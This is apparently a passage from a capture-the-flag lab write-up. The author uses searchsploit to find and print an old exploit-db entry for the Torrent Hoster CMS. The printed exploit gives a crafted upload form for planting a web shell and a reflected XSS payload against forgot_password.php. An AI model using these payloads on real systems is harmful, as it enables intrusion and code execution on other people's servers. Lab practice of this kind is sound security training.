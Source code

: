 This is a really old opensource torrent cms from 2007, must be exploitable:

```text
root@kali:~/htb# searchsploit torrent hoster
---------------------------------- ----------------------------------------
 Exploit Title                    |  Path
                                  | (/usr/share/exploitdb/)
---------------------------------- ----------------------------------------
Torrent Hoster - Remount Upload   | exploits/php/webapps/11746.txt
---------------------------------- ----------------------------------------

root@kali:~/htb# searchsploit -m exploits/php/webapps/11746.txt
  Exploit: Torrent Hoster - Remount Upload
      URL: https://www.exploit-db.com/exploits/11746
     Path: /usr/share/exploitdb/exploits/php/webapps/11746.txt
File Type: HTML document, ASCII text, with CRLF line terminators
Copied to: /root/htb/11746.txt

root@kali:~/htb# cat 11746.txt
========================================================================================
| # Title    : Torrent Hoster Remont Upload Exploit
| # Author   : El-Kahina
| # Home     : www.h4kz.com
| # Script   : Powered by Torrent Hoster.     
| # Tested on: Windows SP2 Francais V.(Pnx2 2.0) + Lunix Francais v.(9.4 Ubuntu)
| # Bug      : Upload
======================      Exploit By El-Kahina       =================================
 # Exploit  :
 1 - use tamper data : http://127.0.0.1/torrenthoster//torrents.php?mode=upload
 2 - <center>
        Powered by Torrent Hoster
        <br />
        <form enctype="multipart/form-data" action="http://127.0.0.1/torrenthoster/upload.php" id="form" method="post" onsubmit="a=document.getElementById('form').style;a.display='none';b=document.getElementById('part2').style;b.display='inline';" style="display: inline;">
        <strong>&#65533;&#65533;&#65533;&#65533; &#65533;&#65533;&#65533; &#65533;&#65533;&#65533;&#65533;&#65533; &#65533;&#65533; &#65533;&#65533;:</strong> <?php echo $maxfilesize; ?>&#65533;&#65533;&#65533;&#65533;&#65533;&#65533;&#65533;&#65533;<br />
        <br>
        <input type="file" name="upfile" size="50" /><br />
        <input type="submit" value="&#65533;&#65533;&#65533; &#65533;&#65533;&#65533;&#65533;&#65533;" id="upload" />
        </form>
        <div id="part2" style="display: none;">&#65533;&#65533;&#65533; &#65533;&#65533;&#65533; &#65533;&#65533;&#65533;&#65533;&#65533; .. &#65533;&#65533; &#65533;&#65533;&#65533;&#65533; &#65533;&#65533;&#65533;&#65533;&#65533;</div>
     </center>
3 - http://127.0.0.1/torrenthoster/torrents/  (to find shell)
4 - Xss: http://127.0.0.1/torrenthoster/users/forgot_password.php/>"><ScRiPt>alert(00213771818860)</ScRiPt>
==========================================
Greetz : Exploit-db Team
all my friend :(Dz-Ghost Team )
im indoushka's sister
------------------------------------------
```
